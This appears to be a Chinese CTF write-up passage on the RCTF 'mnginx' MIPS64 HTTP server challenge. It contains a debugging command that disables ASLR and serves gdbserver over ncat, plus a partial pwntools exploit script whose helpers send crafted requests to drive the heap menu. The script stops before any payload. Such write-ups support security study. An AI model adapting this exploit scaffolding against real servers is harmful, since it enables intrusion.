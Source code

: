 ### 调试小技巧

启动qemu之后使用`
echo 0 > /proc/sys/kernel/randomize_va_space & ncat -vc "gdbserver 0.0.0.0:5555 /m1/httpd" -kl 0.0.0.0 3333`关闭地址随机化并启动gdbserver，而后在gdb的断点可以下成可复用的断点，方便调试。

### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='mips64',endian='big',os='linux',log_level="DEBUG")
debug = 0

libc = ELF('./libuClibc-1.0.32.so')
if debug == 1:
    p = process(["qemu-mips64-static", "-L", "/home/wz/Desktop/CTF/RCTF/mnginx/player", "./mginx"])
elif debug == 2:
    p = process(["qemu-mips64-static", "-g", "1234", "-L", "/home/wz/Desktop/CTF/RCTF/mnginx/player", "./mginx"])
else:
    p = remote("127.0.0.1",3333)

def Add(idx,sz,content="xmzyshypnc"):
    payload = "POST /index.html\n"
    payload += "Content-Length: "+str(sz)+"\n"
    payload += "Content-Indexx: "+str(idx)
    p.sendline(payload)
    #raw_input()
    sleep(0.05)
    p.send('\n')
    sleep(0.05)
    #raw_input()
    if len(content) != 0:
        p.send(content)

def Show(idx):
    payload = "GET /index.html?"
    payload += "Show="+str(idx)
    p.sendline(payload)
    sleep(0.05)
    p.send('\n')

def Del(idx):
    payload = "GET /index.html?"
    payload += "Del="+str(idx)
    p.sendline(payload)
    sleep(0.05)
    p.send('\n')

def Req(content):
    sleep(0.1)
    payload = "POST /index.html\n"
    payload += "Content-Length: "+content+"\n"
    p.sendline(payload)
    #raw_input()

def exp():
    raw_input()
    #list:0x14240
    #[0x20,0x40] [0x60,0x80] [0xa0,0xc0) [0xe0,0xff]
    #GET:Show/Del
    #payload = "GET /index.html?"
    #payload += "Show=1"
```